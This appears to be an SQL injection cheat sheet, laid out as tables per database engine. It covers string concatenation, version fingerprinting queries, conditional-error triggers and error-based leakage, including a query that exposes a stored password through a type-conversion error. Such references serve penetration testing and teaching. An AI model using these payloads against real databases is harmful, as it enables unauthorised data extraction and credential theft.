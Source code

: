 ### String Concatenation

| DBMS | Syntax |
| --- | --- |
| Oracle | `'foo'\|\|'bar’` |
| Microsoft | `'foo'+'bar'` |
| PostgreSQL | `'foo'\|\|'bar’` |
| MySQL | `'foo' 'bar'` or `CONCAT('foo','bar')` |

### **Database Fingerprinting (Version Detection)**

| DBMS | Query |
| --- | --- |
| **MySQL / MariaDB** | `SELECT @@version;` |
| **PostgreSQL** | `SELECT version();` |
| **Oracle** | `SELECT * FROM v$version;` |
| **Microsoft SQL Server (MSSQL)** | `SELECT @@version;` |
| **SQLite** | `SELECT sqlite_version();` |
| **IBM DB2** | `SELECT service_level FROM TABLE (sysproc.env_get_inst_info()) AS INSTANCEINFO;` |
| **Firebird** | `SELECT rdb$get_context('SYSTEM', 'ENGINE_VERSION') FROM rdb$database;` |
| **SAP HANA** | `SELECT * FROM "SYS"."M_DATABASE";` |
| **CockroachDB** | `SHOW CLUSTER SETTING version;` |
| **Amazon Redshift** | `SELECT version();` |
| **Teradata** | `SELECT * FROM DBC.DBCInfoV;` |
| **Informix** | `SELECT dbinfo('version', 'full') FROM systables WHERE tabid = 1;` |

### Conditional Errors (Boolean Trigger)

| DBMS | Example |
| --- | --- |
| Oracle | `SELECT CASE WHEN (condition) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| Microsoft | `SELECT CASE WHEN (condition) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `1 = (SELECT CASE WHEN (condition) THEN 1/(SELECT 0) ELSE NULL END)` |
| MySQL | `SELECT IF(condition,(SELECT table_name FROM information_schema.tables),'a')` |

### Error-Based Data Leakage

| DBMS | Example |
| --- | --- |
| Microsoft | `SELECT 'foo' WHERE 1 = (SELECT 'secret')` → Conversion failed when converting varchar to int |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)` → invalid input syntax for integer |
| MySQL | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))` → XPATH syntax error |
